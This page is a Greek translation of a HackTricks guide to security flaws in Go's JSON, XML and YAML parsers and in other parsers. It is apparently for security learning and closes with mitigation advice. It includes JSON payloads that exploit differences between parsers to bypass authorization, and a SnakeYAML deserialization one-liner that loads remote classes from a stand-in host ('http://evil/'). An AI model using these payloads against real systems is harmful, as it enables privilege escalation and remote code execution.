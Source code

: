 # JSON, XML & Yaml Hacking & Issues

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

Τα ακόλουθα ζητήματα εντοπίστηκαν στο Go JSON αν και θα μπορούσαν να υπάρχουν και σε άλλες γλώσσες. Αυτά τα ζητήματα δημοσιεύτηκαν στο [**this blog post**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

Go’s JSON, XML, and YAML parsers have a long trail of inconsistencies and insecure defaults that can be abused to **bypass authentication**, **escalate privileges**, or **exfiltrate sensitive data**.


### (Un)Marshaling Unexpected Data

Ο στόχος είναι να εκμεταλλευτούμε structs που επιτρέπουν σε έναν attacker να διαβάσει/γράψει ευαίσθητα πεδία (π.χ., `IsAdmin`, `Password`).

- Παράδειγμα Struct:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- Κοινές Ευπάθειες

1. **Missing tag** (no tag = το πεδίο εξακολουθεί να αναλύεται από προεπιλογή):
```go
type User struct {
Username string
}
```
Payload:
```json
{"Username": "admin"}
```
2. **Λανθασμένη χρήση του `-`**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Payload:
```json
{"-": true}
```
✔️ Ο σωστός τρόπος για να αποτρέψετε ένα πεδίο από το να γίνει (un)marshaled:
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### Διαφορές Parser

Ο στόχος είναι να bypass authorization εκμεταλλευόμενοι το πώς διαφορετικοί parsers ερμηνεύουν το ίδιο payload διαφορετικά, όπως σε:
- CVE-2017-12635: Apache CouchDB bypass via duplicate keys
- 2022: Zoom 0-click RCE via XML parser inconsistency
- GitLab 2025 SAML bypass via XML quirks


**1. Duplicate Fields:**
Go's `encoding/json` παίρνει το **τελευταίο** πεδίο.
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
Άλλοι parsers (π.χ., Java’s Jackson) μπορεί να πάρουν το **πρώτο**.

**2. Μη ευαισθησία σε πεζά/κεφαλαία:**
Το Go δεν κάνει διάκριση μεταξύ πεζών και κεφαλαίων:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
Ακόμη και τα κόλπα με Unicode λειτουργούν:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Cross-service mismatch:**
Φανταστείτε:
- Proxy written in Go
- AuthZ service written in Python

Attacker στέλνει:
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python βλέπει `UserAction`, το επιτρέπει
- Go βλέπει `AdminAction`, το εκτελεί


### Σύγχυση μορφής δεδομένων (Polyglots)

Ο στόχος είναι η εκμετάλλευση συστημάτων που αναμειγνύουν μορφές (JSON/XML/YAML) ή αποτυγχάνουν ανοιχτά σε σφάλματα parser όπως:
- **CVE-2020-16250**: HashiCorp Vault έκανε parse JSON με XML parser αφού το STS επέστρεψε JSON αντί για XML.

Ο επιτιθέμενος ελέγχει:
- Την κεφαλίδα `Accept: application/json`
- Μερικό έλεγχο του JSON body

Ο XML parser του Go το έκανε parse **παρ' όλα αυτά** και εμπιστεύτηκε την εγχυμένη ταυτότητα.

- Κατασκευασμένο payload:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
Αποτέλεσμα:
- **Go JSON** parser: `Action_2` (μη-ευαίσθητο σε πεζά/κεφαλαία + υπερισχύει το τελευταίο)
- **YAML** parser: `Action_1` (ευαίσθητο σε πεζά/κεφαλαία)
- **XML** parser: αναλύει το `"Action_3"` μέσα στο αλφαριθμητικό

---

## Αξιοσημείωτες ευπάθειες αναλυτών (2023-2025)

> Τα παρακάτω δημόσια εκμεταλλεύσιμα ζητήματα δείχνουν ότι η μη ασφαλής ανάλυση είναι ένα πρόβλημα πολλαπλών γλωσσών — όχι μόνο ένα πρόβλημα Go.

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* Επηρεάζει: `org.yaml:snakeyaml` < **2.0** (used by Spring-Boot, Jenkins, etc.).
* Βασική αιτία: `new Constructor()` αποσειριοποιεί **οποιαδήποτε κλάση Java**, επιτρέποντας gadget chains που καταλήγουν σε remote-code execution.
* One-liner PoC (θα ανοίξει την αριθμομηχανή στον ευάλωτο host):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Διόρθωση / Αντιμετώπιση:
1. **Αναβάθμιση σε ≥2.0** (χρησιμοποιεί `SafeLoader` από προεπιλογή).
2. Σε παλαιότερες εκδόσεις, χρησιμοποιήστε ρητά `new Yaml(new SafeConstructor())`.

### libyaml Double-Free (CVE-2024-35325)

* Επηρεάζει: `libyaml` ≤0.2.5 (βιβλιοθήκη C που αξιοποιείται από πολλά language bindings).
* Πρόβλημα: Κλήση στο `yaml_event_delete()` δύο φορές οδηγεί σε double-free, το οποίο επιτιθέμενοι μπορούν να εκμεταλλευτούν για DoS ή, σε ορισμένα σενάρια, για εκμετάλλευση του heap.
* Κατάσταση: Το upstream απέρριψε ως «API misuse», αλλά οι διανομές Linux έστειλαν την patched έκδοση **0.2.6** που προληπτικά μηδενίζει/απελευθερώνει τον δείκτη.

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* Επηρεάζει: Tencent **RapidJSON** πριν το commit `8269bc2` (<1.1.0-patch-22).
* Σφάλμα: Στο `GenericReader::ParseNumber()` οι απροστάτευτοι αριθμητικοί υπολογισμοί επιτρέπουν σε επιτιθέμενους να δημιουργήσουν τεράστια αριθμητικά literals που περιτυλίγονται (wrap around) και καταστρέφουν το heap — τελικά επιτρέποντας ανύψωση προνομίων όταν το προκύπτον object graph χρησιμοποιείται για αποφάσεις εξουσιοδότησης.

---

### 🔐 Μέτρα αντιμετώπισης (Ενημερωμένα)

| Κίνδυνος                            | Διόρθωση / Σύσταση                                      |
|-------------------------------------|------------------------------------------------------------|
| Άγνωστα πεδία (JSON)               | `decoder.DisallowUnknownFields()`                          |
| Διπλά πεδία (JSON)             | ❌ Δεν υπάρχει διόρθωση στη stdlib — επαληθεύστε με [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Αντιστοίχιση ανεξαρτήτως πεζών/κεφαλαίων (Go)         | ❌ Δεν υπάρχει διόρθωση — επαληθεύστε τα struct tags + προ-κανoνικοποιήστε την είσοδο   |
| Άχρηστα δεδομένα XML / XXE              | Χρησιμοποιήστε έναν ενισχυμένο αναλυτή (`encoding/xml` + `DisallowDTD`)     |
| Άγνωστα κλειδιά YAML                   | `yaml.KnownFields(true)`                                   |
| **Μη ασφαλής απο-σειριοποίηση YAML**     | Χρησιμοποιήστε SafeConstructor / αναβαθμίστε σε SnakeYAML ≥2.0            |
| libyaml ≤0.2.5 double-free          | Αναβαθμίστε σε **0.2.6** ή έκδοση με patch από τη διανομή            |
| RapidJSON <patched commit           | Μεταγλωττίστε με την τελευταία RapidJSON (≥Ιούλιος 2024)              |

## Δείτε επίσης

{{#ref}}
mass-assignment-cwe-915.md
{{#endref}}

## Αναφορές

- Baeldung – “Resolving CVE-2022-1471 With SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
